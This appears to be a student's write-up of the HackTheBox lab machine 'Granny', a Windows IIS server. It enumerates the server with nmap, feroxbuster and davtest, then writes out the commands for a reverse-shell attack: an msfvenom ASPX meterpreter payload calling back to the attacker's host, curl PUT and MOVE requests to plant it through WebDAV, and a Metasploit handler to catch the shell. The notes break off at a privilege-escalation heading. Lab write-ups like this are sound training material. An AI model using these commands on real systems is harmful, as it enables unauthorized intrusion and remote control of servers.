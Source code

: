 ### NMAP

```
sudo nmap -sC -vv -sV 10.10.10.15 -oN nmap-granny
```

![[HackTheBox/Windows/attachments/Pasted image 20250710222523.png]]


# Web (80)
![[HackTheBox/Windows/attachments/Pasted image 20250710222748.png]]
- IIS

## Ferox 
```
feroxbuster -u http://10.10.10.15/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -o ferox.out
```

![[HackTheBox/Windows/attachments/Pasted image 20250710223000.png]]
- error

```
curl -X PUT -T "web-shell.php.png" "http://10.10.10.15/web-shell.php.png"
```

The shells with the double extension were uploading but the web page wasn't executing them.

![[HackTheBox/Windows/attachments/Pasted image 20250710233810.png]]

Grabbing hints...

It looks like we should be enumerating WebDAV server directly for these different methods

# WebDAV

```
davtest -url http://10.10.10.15
```

![[HackTheBox/Windows/attachments/Pasted image 20250710234131.png]]
- oh 👀

So basically txt files can be PUT on the server 
![[HackTheBox/Windows/attachments/Pasted image 20250710234532.png]]

But no php or asp or aspx can. 

We could use MOVE or COPY to change the file name to something that ends with .aspx and get command execution. 

The response of the box X-Powered-By: ASP.NET suggests that executing an ASPX file should work.

Generate aspx payload with msfvenom 

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.10 LPORT=9001 -f aspx -o rev.aspx
```


![[HackTheBox/Windows/attachments/Pasted image 20250711000046.png]]

The put this aspx file on the server as a txt file and MOVE the aspx in

```
sudo curl -X PUT http://10.10.10.15/rev.txt --data-binary @rev.aspx
```

```
sudo curl -X MOVE -H 'Destination: http://10.10.10.15/rev.aspx' http://10.10.10.15/rev.txt
```


Ahhh losing my shell

![[HackTheBox/Windows/attachments/Pasted image 20250711001047.png]]

Maybe netcat can't handle?

I will use metasploit's multi/handler

```
msfconsole -q
```

```
use exploit/multi/handler
```

Set the payload to the same as the msfvenom script

![[HackTheBox/Windows/attachments/Pasted image 20250711001759.png]]

```
set payload windows/meterpreter/reverse_tcp
```

Set lhost and lport to kali box 

![[HackTheBox/Windows/attachments/Pasted image 20250711002054.png]]

Start the handler. Visit the aspx in the browser 

![[HackTheBox/Windows/attachments/Pasted image 20250711002141.png]]


Yay! Initial access!

![[HackTheBox/Windows/attachments/Pasted image 20250711002218.png]]

# Privesc with Metasploit